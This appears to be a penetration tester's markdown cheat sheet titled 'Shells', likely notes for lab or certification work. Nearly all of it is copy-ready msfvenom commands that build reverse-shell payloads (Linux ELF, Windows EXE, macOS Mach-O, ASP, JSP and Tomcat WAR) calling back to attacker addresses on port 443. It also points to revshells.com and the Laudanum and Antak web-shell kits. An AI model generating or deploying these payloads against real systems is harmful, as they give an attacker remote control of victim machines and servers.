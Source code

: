 # Shells

https://www.revshells.com/

## Payloads

| Payload Description                               | MSFvenom Command                                                                                   |
| ------------------------------------------------- | -------------------------------------------------------------------------------------------------- |
| Linux-based Reverse Shell (Stageless Payload)     | `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf`     |
| Windows-based Reverse Shell (Stageless Payload)   | `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe`       |
| MacOS-based Reverse Shell Payload                 | `msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho`   |
| ASP Web Reverse Shell Payload                     | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp` |
| JSP Web Reverse Shell Payload (Raw)               | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp`      |
| WAR Java/JSP Compatible Web Reverse Shell Payload | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war`      |

* Laudanumla:
* Antak: https://github.com/samratashok/nishang

## Tomcat War

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=443 -f war > shell.war
```

